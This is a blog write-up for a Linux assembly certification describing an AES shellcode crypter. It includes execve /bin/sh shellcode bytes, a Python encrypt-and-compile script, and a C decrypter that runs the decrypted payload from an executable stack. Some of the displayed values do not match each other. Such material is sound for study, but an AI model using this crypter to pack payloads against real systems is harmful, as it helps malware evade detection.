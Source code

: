```yaml
---
title:  "[SLAE 7] AES Shellcode crypter"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

This is the last assignment of SLAE: **_building a shellcode crypter_**. Thanks Vivek and the team at SecurityTube for the course!

* I  chose to do the encryption using _`python-crypto`_ library. I used _AES-128_, in _CBC mode_ with _PKCS5 padding_
* I did the decryption of the shellcode using the easily integrable [PolarSSL AES](https://tls.mbed.org/) source code

The encryption password is provided on the command line, then a Python script hard-codes it in the decrypter and builds it. For exemplify I've used the _`execve-stack`_ shellcode: 
```bash
$ ./encrypt_payload_polar.py 
Usage:
    ./encrypt_payload_polar.py [passphrase]
     
$ ./encrypt_payload_polar.py s3cr37
[+] Shellcode (len 32):
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50"
"\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
[+] Key:
"\xe8\xca\xa8\xd3\x69\x22\xbe\x22\xf3\x2e\x08\x30\x11\xc0\xef\xbc"
[+] IV:
"\x07\xb0\x24\x02\x5b\x00\x68\xfc\x34\x30\x5e\x42\x64\x24\x39\x99"
[+] Encrypted shellcode (len 134): 
"\x0d\x18\x30\xe5\xca\x14\x13\x3d\x5e\xb2\xfa\xeb\x60\x1d\x51\x9b"
"\x24\x74\x64\xd7\x17\x9f\x32\xdf\xbf\x36\xf4\x91\x9c\x03\x09\xfb"
[+] Compiling:
 -> gcc -Wall -z execstack -o encrypted_shellcode temp.c PolarSSL/aes.c PolarSSL/md5.c
 -> strip --strip-all encrypted_shellcode
 -> rm temp.c
[*] Done.
$ ./encrypted_shellcode
#
```

The encrypter/decrypter uses the password to generate a 128 bits key, by hashing the password.
The PolarSSL is extremely easy to integrate and use, compared with the OpenSSL, and the generated binary is also much smaller as only AES and MD5 functions are linked in. Here's a snippet of the decrypter code that does the main bits: 
```c
    [..]
    unsigned char key[16];
    unsigned char iv[16] = 
"\xb4\x9d\x64\x10\xa8\x3b\x1b\xa9\x29\xc4\x4b\x09\xfe\x2c\xd3\x56";
 
    unsigned char input[] = 
"\x24\x06\xa6\xe4\x5d\xc4\xc0\x0e\x36\x7d\x05\x5a\xfe\xc1\x07\x0c"
"\x31\x48\xef\x06\x0f\x09\x84\x98\x03\x3e\x04\x1e\x08\x6d\xb2\xe3";
    size_t input_len = 32;
    unsigned char output[32];
 
    unsigned char passw[] = "s3cr37";
    size_t in_len = 6;
 
    /* Generate a 128 bits key from the password */
    md5_context md5_ctx;
    md5_starts(&md5_ctx);
    md5_update(&md5_ctx, passw, in_len);
    md5_finish(&md5_ctx, key);
 
    /* Decrypt the payload */
    aes_context aes;
    aes_setkey_dec(&aes, key, 128);
    aes_crypt_cbc(&aes, AES_DECRYPT, input_len, iv, input, output);
 
    /* Execute decrypted shellcode */
    ((void (*)()) output)();
```

The Python script uses a template of the decrypter and fills in the encrypted shellcode, the lengths, IV and key and then generates the encrypted binary. Below is a snippet of the main function:
```python
def make_binary(password):
    sc_len = len(pad(shellcode))
    print_done("[+] Shellcode (len %d):" % (sc_len))
    print "%s" % (to_hex(shellcode))
 
    # Generate a secret key and random IV
    h = MD5.new()
 
    h.update(password)
    key = h.digest()
    str_key = to_hex(key)
    print_done("[+] Key:")
    print "%s" % str_key
 
    # Generate random IV
    iv = os.urandom(BS)
    str_iv = to_hex(iv) #"\"%s\"" % "".join(["\\x%02x" % ord(c) for c in iv])
    print_done("[+] IV:")
    print "%s" % str_iv
 
    # Create a cipher object using the random secret
    cipher = AES.new(key, AES.MODE_CBC, iv)
 
    enc = cipher.encrypt(pad(shellcode))
    str_enc = to_hex(enc)
    print_done("[+] Encrypted shellcode (len %d):" % (len(str_enc)))
    print "%s" % (str_enc)
 
    outline = open(decrypt_shell).read()
    code = outline % (str_iv, str_enc, sc_len, sc_len, password, len(password))
 
    # Write to temporary source file
    o = open(temp_src, "w")
    o.write(code)
    o.close()
 
    # Compile
    compile_cmd = "gcc -Wall -z execstack -o %s %s PolarSSL/aes.c PolarSSL/md5.c" % \
       (out_file, temp_src)
    print_done("[+] Compiling:") 
    print " -> %s" % compile_cmd
    os.system(compile_cmd)
 
 
    # Strip all symbols
    strip_cmd = "strip --strip-all %s" % (out_file)
    print " -> %s" % (strip_cmd)
    os.system(strip_cmd)
 
    # Delete intermediate files
    clean_cmd = "rm %s" % (temp_src)
    print " -> %s" % (clean_cmd)
    os.system(clean_cmd)
 
    print_ok("\n[*] Done. Run ./%s" % (out_file))
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
